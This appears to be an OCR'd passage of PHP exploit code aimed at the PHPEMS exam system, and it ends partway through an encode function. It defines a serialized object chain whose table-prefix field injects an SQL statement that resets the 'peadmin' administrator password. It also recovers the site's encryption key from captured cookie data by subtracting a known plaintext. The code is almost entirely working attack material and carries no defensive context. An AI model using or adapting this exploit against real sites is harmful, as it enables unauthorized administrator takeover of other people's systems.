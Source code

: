```plain
<?php  
namespace PHPEMS{  
    class session{  
    public function __construct()  
    {  
        $this->sessionid="1111111";  
        $this->pdosql= new pdosql();  
        $this->db= new pepdo();  
        }  
    }  
    class pdosql  
    {  
        private $db ;  
        public function __construct()  
        {  
            $this->tablepre = 'x2_user set userpassword="e10adc3949ba59abbe56e057f20f883e" where username="peadmin";#--';  
            $this->db=new pepdo();  
        }  
    }  
    class pepdo  
    {  
        private $linkid = 0;  
    }  
}  

namespace {  
    $info = "%2595%259Cfs%25AF%25D9lon%2586%25D9%25C8%25D7%25D6%25A0%25A1%25A2%25CA%2594X%259D%25AC%259Ccg%259DS%2596i%259B%259B%25C7%2599%2598kp%2595%259Eg%2598%2598%25C7%25CA%259B%259A%2594lid%2593%2592%259B%2594i%25C3fh%2598c%2587p%25AC%259F%259Dn%2584%25A6%259E%25A7%25D9%259B%25A5%25A2%25CD%25D6%2585%259F%25D6qkn%2583ah%2599g%2592%255Ee%2591b%2587p%25AC%259F%2595j%259CU%25AC%2599%25D9%25A5%259F%25A3%25D2%25DA%25CC%25D1%25C8%25A3%259B%25A1%25CA%25A4X%259D%25A2%259Cal%2593g%259Bhk%2595%259Bm%259D%25B0"; // 远程环境
    $info = "%2592%25A2%25A4%25A0%25F3%25A9%25AE%25A2%259D%2599%25C5%25DD%25E7%25D9%25DF%25D8%25C2%25D9%259DVk%25E9%25A8%259AS%25B3e%258F%258A%25AE%25BFii%2599%25D4%259C%25DAl%25A5%259A%2599%25A8%25B8%25AD%25DA%259E%25A7%2599%2584%25D6%259E%2595d%25DB%25A1%25CBU%25ABt%2580%258C%25BE%2598ok%258A%25E4%25CB%25EB%25A9%25DD%25D8%25D1%25E0%25C2%259A%25AF%25D9%25B0%25A2%258E%2592jfg%25A4%259E%2595Q%25A7t%2580%258C%25BE%2598gg%25A2%2593%25D9%25DD%25A9%25E7%25D2%25D2%25E5%25C6%25E1%25E1%25CB%25E2%25D2%25C1%25D9%25ADVk%25DF%25A8%2598X%25A9y%2594%2589%257D%2594ia%25A3%25EE";   //本地环境
    $info = urldecode($info);  
    $info = urldecode($info);  
    $info = substr($info,64,32);  
    function reverse($payload1,$payload2)  
    {  
        $il = strlen($payload1);  
        $key= "";  
        $kl = 32;  
        for($i = 0; $i < $il; $i++)  
        {  
            $p = $i%$kl;  
            $key .= chr(ord($payload1[$i])-ord($payload2[$p]));  
        }  
        return $key;  
    }  

    define(CS1,reverse($info, ':"sessionip";s:9:"127.0.0.1";s:1'));  
    echo CS1;  
    function encode($info)  
    {  
        $info = serialize($info);  
        $key = CS1;  
        $kl = strlen($key);  
        $il = strlen($info);  
```